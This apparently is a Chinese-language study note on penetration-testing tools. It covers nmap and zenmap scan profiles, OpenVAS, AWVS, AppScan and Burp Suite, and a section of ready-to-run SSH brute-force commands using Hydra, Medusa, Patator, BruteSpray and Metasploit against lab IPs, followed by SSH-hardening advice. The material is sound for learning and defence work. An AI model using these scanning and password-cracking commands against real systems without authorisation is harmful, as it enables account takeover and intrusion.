- https://sectools.org/


##### 扫描示例

```shell
主机发现	nmap -sn 192.168.19/24
端口扫描	nmap -sS -p1-1000 192.168.19.129
系统扫描	nmap -O 192.168.19.129
版本扫描	nmap -sV 192.168.19.129
综合扫描	nmap -A 192.168.19.129

脚本扫描	root@kali:/usr/share/nmap/scripts#
		   namp --script=default 192.168.19.129
		   nmap --script=auth 192.168.19.129
		   nmap --script=brute 192.168.19.129
		   nmap --script=vuln 192.168.19.129
		   nmap --script=broadcast 192.168.19.129
		   namp --script=smb-brute.nse 192.168.19.129
		   nmap --script=smb-check-vulns.nse --script-args=unsafe=1 192.168.19.129
		   nmap --script=smb-vuln-conficker.nse --script-args=unsafe=1 192.168.19.129
		   nmap -p3306 --script=mysql-empty-password.nse 192.168.19.129
```


#### zenmap

##### Intense scan



##### Intense scan plus UDP



```shell
nmap -sS -sU -T4 -A -v 192.168.19.129
-sS	TCP全连接扫描
-sU	UDP扫描
```


##### Intense scan,all TCP ports



```shell
nmap -p 1-65535 -T4 -A -v 192.168.19.129
-p	指定端口范围，默认扫描1000个端口
```


##### Intense scan no ping

```shell
nmap -T4 -A -v -Pn 192.168.19.0/24
-Pn	不做ping扫描，例如针对防火墙等安全产品
```


##### ping scan

```shell
nmap -sn 192.168.19.0/24
nmap -sn -T4 -v 192.168.19.0/24
-sn	只做ping扫描，不做端口扫描
```


##### quick scan

```shell
namp -T4 -F 192.168.19.129
-F fast模式，只扫描常见服务端口，比默认端口（1000个）还少
```


##### quick scan plus

```shell
nmap -sV -T4 -O -F --version-light 192.168.19.129
-sV 扫描系统和服务版本
-O	扫描操作系统版本
```


##### quic traceroute

```shell
nmap -sn --traceroute www.baidu.com
```


##### regular scan

```shell
nmap www.baidu.com
```


##### slow comprehensive scan

```shell
nmap -sS -sU -T4 -A -v -PE -PP -PS80,443 -PA3389 -PU40125 -PY -g 53 --script "default or (disconvery and safe)" www.baidu.com
```


#### OpenVAS

​		OpenVAS（Open Vulnerability Assessment System），即开放式漏洞评估系统，是一个哟关于评估目标漏洞的接触框架，开源且功能十分强大。

​		OpenVAS与著名的Nessus“本事同根生”，在Nessus商业化之后仍然坚持开源，号称“当前最好用的开源漏洞扫描工具”。最新版的Kali Linux不再自带OpenVSA，需要自己部署OpenVAS漏洞检测系统。其核心不见是一个服务器，包括一套网络漏洞测试程序，可以检测**远程系统和应用程序**中的安全问题。

​		但是OpenVAS的最常用用途是检测目标网络或主机的安全性。它的评估能力来源于数万个漏洞测试程序，这些程序都是以插件的形式存在。OpenVAS是基于C/S（客户端/服务器），B/S（浏览器/服务器）架构进行工作，用户通过浏览器或者专用客户端程序来下达扫描任务，服务器负责授权，执行扫描操作并提供扫描结果。

注：

- [http://www.openvas.org/](http://www.openvas.org/)
- [https://www.greenbone.net/](https://www.greenbone.net/)


##### 部署OpenVAS

```shell
# 升级kali Linux
root@kali:~# apt-get update
root@kali:~# apt-get dist-upgrade

# 安装OpenVAS
root@kali:~# apt-get install openvas
root@kali:~# openvas-setup

# 修改admin账户密码
root@kali:~# openvasmd --user=admin --new-password=admin

# 修改默认监听IP
root@kali:~# vim /lib/systemd/system/greenbone-security-assistant.service

# 启动OpenVAS
root@kali:~# openvas-start

# 检查安装
root@kali:~# ss -tnlp
root@kali:~# openvas-check-setup
```


注：

安装脚本：

```shell
#! /bin/bash

# 安装Openvas
apt-get install openvas
# 配置
openvas-setup
# 启动服务
openvas-start
# 检查安装
openvas-check-setup

```


##### 登录OpenVAS

```shell
https://192.168.19.129:9392
# 192.168.19.129是安装主机的IP地址
# 注意是https
```



添加安全证书：



OpenVAS登录界面：



OpenVAS主界面：




##### 新建扫描task



##### 高级扫描task




##### 导出扫描报告




## Web漏洞扫描

### AWVS

​		AWVS（Acunetix Web Vulnerability Scanner）,是一款知名的Web网络漏洞扫描工具，它通过网络爬虫测试你的网站安全，检测流行安全漏洞。

​		AWVS包含收费和免费两个版本，AWVS官方网站是：http://www.acuntix.com/（需要翻墙），官方下载地址：https://www.acunetix.com/vulnerability-scanner/download/，（试用14天）


#### 功能及特点

- 自动的客户端基本分析器，允许对Ajax和Web 2.0应用程序进行安全性测试
- 业内最先进且深入的SQL注入和跨站脚本测试
- 高级渗透测试工具，例如：HTTP Editor 和 HTTP Fuzzer
- 可视化宏记录器帮助您轻松测试web表格和受密码保护的区域
- 支持含有CAPTHCA的页面，单个开始指令和Two Factor（双因素）验证机制
- 丰富的报告功能，包括VISA PCI依从性报告
- 高速的多线程扫描器轻松检索成千上万个页面
- 智能爬行程序检测web服务器类型和应用程序语言
- Acunetix检索并分析网站，包括flash内容、SOAP和AJAX
- 端口扫描wen服务器并对在服务器上运行的网路服务执行安全检查
- 可导出网站漏洞文件


#### 项目实验环境


#### AWVS安装


#### AWVS使用示例

##### 网站扫描 

##### 站点爬取

##### 目标查找

##### 子域名扫描

##### SQL盲注

##### HTTP编辑器

##### HTTP嗅探器

##### HTTP模糊测试

##### 认证测试

##### 结果比较

##### 网站服务扫描

##### 任务计划

##### 扫描报告

##### AWVS配置


### AppScan

​		BM Security AppScan是一个适合安全专家的Web应用程序和Web服务渗透测试解决方案。国外商业漏扫产品中，少有的能支持中文的漏扫，运行于Windows平台。界面清晰、配置简单丰富的中文和产品文档，详细的漏洞扫描说明和修复建议。支持丰富的扫描报告，包括安全性、行业标准、合规一次性报告。

- https://www.ibm.com/developerworks/cn/downloads/r/appscan/

##### 功能及特点

- 对现代Web应用程序和服务执行自动化的动态应用程序安全测试（DAST）和交互应用程序安全测试（IAST）。支持Web2.0、JavaScript和AJAX框架的全面的JavaScript执行引擎
- 涵盖XML和JSON基础架构的SOAP和REST Web服务测试支持WS-Security标准、XML加密和XML签名。详细的漏洞公告和修复建议
- 40所种合规性报告，包括支付卡行业数据安全标准（PCI DSS）、支付应用程序数据安全标准（PA-DSS）、ISO 27001和ISO 27002，以及Basel II。
- IBM Security AppScan eXtensions Framework提供的自定义功能和扩展性

##### 项目实现环境

##### AppScan安装

##### 创建扫描

##### 保存结果

##### 导出结果


### BurpSuite

​		Burp Suite是安全渗透界使用最广泛的漏扫工具之一，能实现从漏洞发现到利用的完整过程。功能强大、配置较为复杂、可定制型强，支持丰富的第三方拓展插件。基于Java编写，跨平台支持，分为Community、Professional、Enterprise版本。

- https://portswigger.net/burp


#### 功能及特点

- Target【目标】：目标模块用于设置扫描域（target scope）、生成站点地图（sitemap）、生成安全分析
- Proxy【代理】：代理模块用于拦截浏览器的HTTP会话内容
- Spider【爬虫】：爬虫模块用于自动爬取网站的每个页面内容，并生成完整的网站地图
- Scanner【扫描】：扫描模块用于自动化检测漏洞，分为主动和被动扫描
- Intruder【入侵】：入侵模块根据上面检测到的可能存在漏洞的链接，调用攻击载荷，对目标链接进行攻击，入侵模块的原理是根据访问链接中存在的参数/变量 调用本地词典、攻击载荷、对参数进行渗透测试
- Repeater【重放】：重放模块用于实现请求重放，通过修改参数进行手工请求回应的调试
- Sequencer【序列器】：序列器模块用于检测参数的随机性，例如密码或者令牌是否可预测，以判断关键数据是否可被伪造
- Decoder【解码器】：解码器模块用于实现对URL、HTML、ASCII、二/八/十六/禁止、哈希等编码转换
- Comparer【对比】：对比模块用于对两次不同的请求和回应进行可视化对比，以此区分不同参数对结果造成的影响
- Extender【拓展】：拓展模块是Burp Suite非常强悍的一个功能，也是它跟其他Web安全评估系统最大的差别通过拓展模块，可以加载自己开发的、或者第三方模块，打造自己的Burp Suite功能；通过Burp Suite提供的API接口，目前可以支持Java、Python、Ruby三种语言的模块编写
- Project Options【项目选项】：对项目进行全局设置
- User Options【用户选项】：对用户信息进行全局设置
- Alerts【报警】：显示软件的使用日志信息


#### 项目实验环境

#### Burp Suite安装

```shell
Kali Linux:		集成Burp Suite Community版本，不支持Scanner功能
Windows：		Burp Suite Pro 支持全部功能

启动方法：
java -jar -Xmx1024M /burpsuite_path/BurpHelper.jar

Burp Suite带有非常详细的帮助文档
```


#### Burp Suiite使用

##### 代理功能【Proxy】

##### 目标功能【Targe】

##### 爬虫功能【Spider】

##### 扫描功能【Scanner】


## SSH暴力破解

### Hydra

​		海德拉（Hydra），希腊神话中的九头蛇，是西方的神话生物，在古希腊神话中出现最为频繁。传说它拥有九颗头，其中一颗头要是被斩断，立刻又会生出两颗头来。

​		Hydra是世界顶级密码暴力破解工具，支持几乎所有协议的在线密码破解，功能强大，其密码能否被破解关键取决于破解字典是否足够强大，在网络安全渗透过程中是一款必备的测试工具。


```shell
e.g.
	hydra -l user -P pwdlist.txt ftp://192.168.19.129
	hydra -L userlist.txt -p defaultpw imap://192.168.19.129/PLAIN
	hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
	hydra -l admin -p password ftp://[192.168.0.0/24]/
	hydra -L logins.txt -P pws.txt -M targets.txt ssh
	
root@kali:~# hydra -l root -P pass.dic 192.168.106.134 ssh
root@kali:~# hydra -L userlist.txt -P passlist.txt -M hosts.txt ssh -o ssh-hydra.ok
```


### Medusa

​		美杜莎是希腊神话里的一个女妖怪，她的头发是毒蛇，长得青面獠牙，她知道自己丑，她要报复，她把见过她的人都变成了石头。据说她原是一位美丽的少女，之所以变成蛇发女妖是因为美杜莎和智慧女神雅典娜比美，雅典娜一怒之下将美杜莎的头发变成毒蛇，变成面目丑陋的妖怪。

​		Medusa是一个速度快，支持大规模并行、模块化、爆破登录。可以同时对多个主机，用户或密码执行强力测试。Medusa和Hydra一样，同样属于在线密码破解工具。不同的是，Medusa的稳定性相比较于Hydra要好很多，但其支持模块要比Hydra少一些。


#### 语法参数

```shell
medusa [-h host | -H file] [-u username | -U file] [-p password | -P file] [-C file] -M module [OPT]
-h [text]	目标主机名称或者IP地址
-H [file]	包含目标主机名称或者IP地址文件
-u [text]	测试的用户名
-U [file]	包含测试的用户名文件
-p [text]	测试的密码
-P [file]	包含测试的密码文件
-C [file]	组合条目文件
-O [file]	日志信息文件
-e [n/s/ns]	n代表空密码，s代表密码与用户名相同 
-M [text]	模块执行名称
-m [text]	传递参数到模块
-d			显示所有的模块名称
-n [NUM]	使用非默认TCP端口
-s			启用SSL
-r [NUM]	重试间隔时间，默认为3s
-t [NUM]	设定线程数量
-T 			同时测试的主机总数
-L			并行化，每个用户使用一个线程
-f			在任何主机上找到第一个账号/密码后，停止破解
-F			在任何主机上找到第一个有效的用户名/密码后停止审计
-q			显示模块的使用信息
-v [NUM]	详细级别（0-6）
-w [NUM]	错误调试级别（0-10）
-V 			显示版本
-Z [text]	继续扫描上一次
```


#### 破解SSH密码

```shell
root@kali:~# medusa -M ssh -h 192.168.19.129 -u root -P pwlist.txt
```


### Patator

​	patator，强大的命令行暴力破解器。

#### 可用模块




#### 破解SSH密码

```shell
root@kali:~# patator ssh_login host=192.168.19.129 user=root password=FILE0 0=pwlist.txt
root@kali:~# patator ssh_login host=192.168.19.129 user=root password=FILE0 0=pwlist.txt -x ignore:mesg='Authentication failed.'
```


### BrutesPray

​		BruteSpray是一款基于nmap扫描输出的gnmap/XML文件，自动调用medusa对服务进行爆破。

#### Kali端安装

```shell
# 升级Kali
root@kali:~# apt-get update

# 安装BrutesPray
root@kali:~# apt-get install brutespray
```


#### 语法参数

```shell
  -f FILE, --file FILE  GNMAP or XML file to parse
  -o OUTPUT, --output OUTPUT
                        Directory containing successful attempts
  -s SERVICE, --service SERVICE
                        specify service to attack
  -t THREADS, --threads THREADS
                        number of medusa threads
  -T HOSTS, --hosts HOSTS
                        number of hosts to test concurrently
  -U USERLIST, --userlist USERLIST
                        reference a custom username file
  -P PASSLIST, --passlist PASSLIST
                        reference a custom password file
  -u USERNAME, --username USERNAME
                        specify a single username
  -p PASSWORD, --password PASSWORD
                        specify a single password
  -c, --continuous      keep brute-forcing after success
  -i, --interactive     interactive mode
  -m, --modules         dump a list of available modules to brute
```


#### nmap扫描

```shell
root@kali:~# nmap -v 192.168.106.0/24 -oX nmap.xml
root@kali:~# nmap -A -p22 -v 192.168.106.0/24 -oX 22.xml
root@kali:~# nmap -sP 192.168.106.0/24 -oX nmaplive.xml
root@kali:~# nmap -sV -O 192.168.106.0/24 -oX namp.xml
```


#### 字典爆破SSH

```shell
root@kali:~# brutespray --file 22.xml -U userlist.txt -P pwlist.txt --threads 5 --hosts 5 -c
```


### MSF

​		Metasploit Framework（简称MSF）是一个编写、测试和使用exploit代码的完善环境。这个环境为渗透测试，Shellcode编写和漏洞研究提供了一个可靠的平台，这个框架主要是由面向对象的Perl编程语言编写的，并带有由C语言、汇编程序和Python编写的可选组件。

#### SSH模块

```shell
root@kali:~# msfconsole
msf5 > search ssh 
```


#### SSH用户枚举

```shell
msf5 > use auxiliary/scanner/ssh/ssh_enumusers
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set rhosts 192.168.19.129
msf5 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /root/userlist.txt
msf5 auxiliary(scanner/ssh/ssh_enumusers) > run
```


#### SSH版本探测

```shell
msf5 > use auxiliary/scanner/ssh/ssh_version
msf5 auxiliary(scanner/ssh/ssh_version) > set rhosts 192.168.19.129
msf5 auxiliary(scanner/ssh/ssh_version) > run
```


#### SSH暴力破解

```shell
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.19.129
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /root/userlist.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /root/passlist.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run
```


### 暴力破解防御

1. useradd shell【推荐】

```shell
root@kali:~# useradd demo -s /sbin/nologin
# 新建用户不具有登录权限
```

2. 密码的复杂性【推荐】

- 字母大小写+数字+特殊字符+20位以上+定期更换

3. 修改默认端口【推荐】

```shell
/etc/ssh/sshd_config
Port 22222
```

4. 限制登录的用户或组【推荐】

```shell
#PermitRootLogin yes
AllowUsers demo

root@kali:~# man sshd_config
AllowUsers AllowGroups DenyUsers DenyGroups
```


5. 使用sudo【推荐】


6. 设置允许的IP访问【可选】

```shell
/etc/hosts.allow ,e.g. sshd:192.168.19.129:allow
PAM基于IP限制
iptables/firewalld
只能允许从堡垒机
```


7. 使用DenyHosts自动统计，并将其加入到/etc/hosts.deny


8. 基于PAM实现登录限制【推荐】

```shell
模块：pam_tally2.so
功能：登录统计
示例：实现防止对sshd暴力破解

root@kali:~# grep tally2 /etc/pam.d/sshd
auth	required	pam_tally2.so deny=2 even_deny_root root_unlock_time=60 unlock_time=6
```


9. 禁用密码改用公钥方式认证

```shell
/etc/ssh/sshd_config
PasswordAuthentication no
```


10. 保护xshell导出会话文件【小心】


11. GRUB加密【针对本地破解】


## 中间人攻击

